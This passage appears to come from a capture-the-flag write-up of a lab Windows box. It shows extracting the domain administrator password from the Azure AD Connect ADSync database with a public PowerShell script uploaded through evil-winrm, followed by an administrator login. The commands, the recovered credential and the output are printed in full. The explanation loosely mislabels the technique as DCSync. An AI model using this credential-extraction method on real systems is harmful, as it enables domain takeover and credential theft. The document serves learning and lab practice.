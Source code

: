 ```
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
MEGABANK\Azure Admins                       Group            S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

```
Little googling about this role . we can find that `we can Extract credentials from the Azure AD Connect Service`

The Azure AD Connect service is essentially responsible for synchronizing things between your local AD domain, and the Azure based domain. However, to do this it needs privileged credentials for your local domain so that it can perform various operations such as syncing passwords etc. we can  decrypt credentials using `DCSync attack`.

Performing the attack is as easy as downloading a powershell script from [Azure-ADConnect.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1). More info about the attack can be found at [xpnsec blog](https://blog.xpnsec.com/azuread-connect-for-redteam/)

we'll upload `Azure-ADConnect.ps1` to the box using evil-winrm upload functionality and execute with by passing server ip and db as parameters.

```
*Evil-WinRM* PS C:\tmp> ./Azure-ADConnect.ps1
*Evil-WinRM* PS C:\tmp> Azure-ADConnect -server 127.0.0.1 -db ADSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: administrator
[+]Password: d0m@in4dminyeah!
```
The credential we extracted belong to `administrator` cool. Now we can login is as Administrator on the box using `Evil-WinRm` with `administrator:d0m@in4dminyeah!`.

```
evil-winrm.rb -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
megabank\administrator
*Evil-WinRM* PS C:\Users\Administrator\Desktop> hostname
MONTEVERDE
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
```